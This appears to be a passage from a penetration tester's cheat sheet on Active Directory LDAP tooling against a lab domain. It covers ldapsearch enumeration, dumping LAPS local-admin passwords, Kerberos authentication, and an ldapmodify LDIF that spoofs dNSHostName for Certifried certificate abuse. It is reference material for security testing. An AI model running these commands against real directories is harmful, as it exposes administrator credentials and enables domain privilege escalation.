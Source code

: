 ```
$ ldapsearch -h 192.168.1.11 -x -b "DC=megacorp,DC=local" '(&(objectCategory=person)(objectClass=user))' sAMAccountName sAMAccountType
```

Get `Remote Management Users` group:

```
$ ldapsearch -h 192.168.1.11 -x -b "DC=megacorp,DC=local" '(memberOf=CN=Remote Management Users,OU=Groups,OU=UK,DC=megacorp,DC=local)' | grep -i memberof
```

Dump LAPS passwords:

```
$ ldapsearch -h 192.168.1.11 -x -b "dc=megacorp,dc=local" '(ms-MCS-AdmPwd=*)' ms-MCS-AdmPwd
```

Simple authentication with a plaintext password:

```
$ ldapsearch -H ldap://192.168.1.11:389 -x -D 'CN=snovvcrash,CN=Users,DC=megacorp,DC=local' -w 'Passw0rd!' -s sub -b "DC=megacorp,DC=local" | tee ldapsearch.out
```

SASL GSSAPI (Kerberos) authentication (there should be both `A` and `PTR` DNS records of the DC for this to work):

```
$ sudo apt install libsasl2-modules-gssapi-mit
$ getTGT.py megacorp.local/snovvcrash:'Passw0rd!'
$ export KRB5CCNAME=`pwd`/snovvcrash.ccache
$ ldapsearch -H ldap://DC01.megacorp.local:389 -Y GSSAPI -s sub -b "DC=megacorp,DC=local" | tee ldapsearch.out
```

Analyze large output for anomalies by searching for unique strings:

```
$ cat ldapsearch.out | awk '{print $1}' | sort | uniq -c | sort -nr
```


#### ldapmodify

An example of removing SPNs and changing `dNSHostName` (see [dNSHostName Spoofing (Certifried)](/pentest/infrastructure/ad/ad-cs-abuse/dnshostname-spoofing-certifried.md)):

```
$ ldapmodify -H ldap://DC01.megacorp.local -Y GSSAPI -f spoof.ldiff
$ ldapsearch -H ldap://DC01.megacorp.local -Y GSSAPI -b "DC=megacorp,DC=local" '(&(objectCategory=computer)(sAMAccountName=fakemachine$))' servicePrincipalName dNSHostName
```

{% code title="spoof.ldiff" %}
```diff
dn: CN=FAKEMACHINE,CN=Computer,DC=megacorp,DC=local
changetype: modify
delete: servicePrincipalName
-
replace: dNSHostName
dNSHostName: dc01.megacorp.local
```
{% endcode %}
